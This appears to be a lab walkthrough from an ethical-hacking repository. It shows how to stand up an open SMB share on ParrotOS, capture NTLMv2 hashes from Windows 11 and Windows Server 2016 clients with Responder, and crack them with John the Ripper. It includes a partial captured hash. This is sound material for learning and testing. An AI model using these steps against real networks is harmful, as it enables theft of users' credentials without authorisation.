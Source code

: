 On the parrotOS

make a folder on your home directory
"SECRETFOLDERSMB"

sudo systemctl start smbd
sudo systemctl start nmbd
sudo systemctl enable smbd
sudo systemctl enable nmbd

sudo chown -R nobody:nogroup /home/parrot/SECRETFOLDERSMB
sudo chmod -R 0777 /home/parrot/SECRETFOLDERSMB
sudo net usershare add SECRETFOLDERSMB /home/parrot/SECRETFOLDERSMB "A secret folder shared via SMB" everyone:F guest_ok=y
net usershare info
(Check if its fine)

ip a 
(172.31.43.83) enp0s5

Win11
run \\172.31.43.83
The user enters it's credentials, and the parrotOS machine captures traffic

ParrotOS
cd /usr/share/responder/logs/

you should see the hash and username

"ec2-user::EC2WIN11:cea98e03389f162a:B975E1277AE96EFB60A29E588B338C39:01010........................"

sudo john SMB-[TAB] and click enter

then you should have the username and password.

![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/6d6efdd2-0e45-4a78-8f02-a22c5c57806f)



One more time for Windows Server Machine (2016)


![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/c10232be-cee5-4d12-8bbe-70d8cd9b646b)


we're capturing


![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/6b537dfd-6918-4221-b6ee-f3582e6f1686)

run with parrotos private ip address

![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/f55de9f7-45e6-4bac-9aa8-8ab94bd11191)

we instantly got a capture.

now let's bruteforce


![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/7829e780-a99f-4fcb-b560-1c9be7db6584)


as you can see:

![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/7226828c-556e-49e2-a679-6cf728eab2e0)



